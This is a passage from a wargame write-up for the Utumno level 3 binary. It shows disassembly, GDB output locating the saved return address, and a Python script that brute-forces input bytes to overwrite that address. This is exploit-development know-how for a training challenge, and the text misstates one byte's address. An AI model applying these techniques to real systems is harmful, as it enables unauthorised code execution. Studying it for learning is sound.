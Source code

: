 ```bash
0x080491aa <+68>:    mov    BYTE PTR [eax],dl
0x080491ac <+70>:    call   0x8049040 <getchar@plt>
{SNIPPED}
0x080491c3 <+93>:    mov    BYTE PTR [ebp+eax*1-0x20],dl
0x080491c7 <+97>:    add    DWORD PTR [ebp-0x4],0x1
0x080491cb <+101>:   call   0x8049040 <getchar@plt>
```
We can see, after the first call the `getchar()`, the first byte we send will be stored in the **EAX** (`mov BYTE PTR [eax],dl`). Then, at the second call to `getchar()` the second byte we send is written to the address calculated by `ebp+eax*1-0x20`.\
Knowing how the location is calculated, we can calculate what bytes we need to send to dictate where we write the second byte we send to.

First, we need to find out the address of **EBP**, we can do this using **GDB**.
```bash
# Set a breakpoint just after the second call to getchar()
gef>  b *main+106
Breakpoint 1 at 0x80491d0: file utumno3.c, line 27.
gef>  x/8xw $ebp
0xffffd388:     0x00000000      0xf7da1cb9      0x00000001      0xffffd444
0xffffd398:     0xffffd44c      0xffffd3b0      0xf7fade34      0x0804907d
```
This shows that the address of **EBP** is `0xffffd388`, which means that the return address is 4-bytes after `0xffffd38c` (**0xf7da1cb9**).

The first byte of the return address **b9** is located at `0xffffd38c`, the second byte **1c** is at `0xffffd38d`, the third byte **da** is at `0xffffd38e`, and the fourth **f7** is at `0xffffd38e`.

To calculate the bytes we need to send to overwrite the return address, I wrote a **Python** script to *brute force* the bytes. As there are only 255 possible bytes (0x01 through 0xFF) it is incredibly quick and prevents the need for quess work.

```python
def calculate(value, index):
    # XOR the value by the index multiplied by 3
    xored = value ^ (index * 3)
    # Add the XOR'ed value (EAX) to the address of EBP
    add = 0xffffd388 + xored
    # Subtract 0x20 from the claulated (EBP + EAX)
    address = hex(add - 0x20)
    # Return the calculated address
    return address

def main():
    # Target addresses of 1st byte, 2nd byte, 3rd byte, and 4th byte of the return address
    targets = ['0xffffd38c', '0xffffd38d', '0xffffd38e', '0xffffd38f']
    
    for index, target in enumerate(targets):
        # Iterate through the values 0x01 - 0xFF (1 - 256) 
        for value in range(1, 256):
            # Calculate the address by calling the "calculate" function
            address = calculate(value, index)
            # Compare the calculated address against the target address
            if address == target:
                # If the calculated address matches the target address, print the value and break
                print(f"[*] Target: {target} - Value: 0x{value:02X}")
                break

if __name__ == '__main__':
    main()
```
